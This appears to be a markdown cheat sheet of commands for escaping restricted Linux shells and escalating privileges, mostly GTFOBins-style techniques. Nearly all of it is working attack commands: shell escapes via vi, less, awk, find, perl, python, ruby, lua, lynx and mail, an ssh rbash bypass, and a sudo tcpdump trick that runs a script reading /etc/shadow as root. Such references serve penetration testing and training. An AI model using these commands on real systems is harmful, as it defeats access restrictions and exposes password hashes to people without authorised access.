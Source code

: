 # Escaping Restricted Linux Shells

## A good url to find binaries that is possible for privesc that may not be covered in this list.

```sh
https://gtfobins.github.io/
```

## Bybass rbash with ssh

ssh user@server -t "bash --noprofile"

## Use echo command with glob if ls is not present
## to list files have access to in the restricted shell

echo /usr/local/rbin/*

## Editors

:set shell=/bin/bash
:shell

:! /bin/bash

# Awk command

awk 'BEGIN {system("/bin/sh")}'

# Find command

find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# More, Less, and Man commands

'! /bin/sh'\
'!/bin/sh'\
'!bash'

# Less

sudo less /etc/file\
v\
:shell

# Write script with tee command

echo "evil script code" | tee script.sh

# Try invoking SHELL throught your favorite language

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()\
perl -e 'exec "/bin/sh";'\
perl: exec "/bin/sh";\
ruby: exec "/bin/sh"\
lua: os.execute('/bin/sh')\
irb(main:001:0> exec "/bin/sh"

# lynx

open a local file with lynx (e.g.: $ lynx /etc/passwd)\
type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.\
Type “e” to edit the file with vi\
Do the vi escape

# Mail command

set VISUAL=/bin/vi\
$ mail -s "subject" "destination email"\
Type "~v" on the next line to edit the mail with vi.

# tcpdump

echo $'id\ncat /etc/shadow' > /tmp/.test\
chmod +x /tmp/.test\
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

# find
sudo find / -exec bash -i \;\
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

# rvim
```sh
python import pty;pty.spawn("/bin/bash")
```
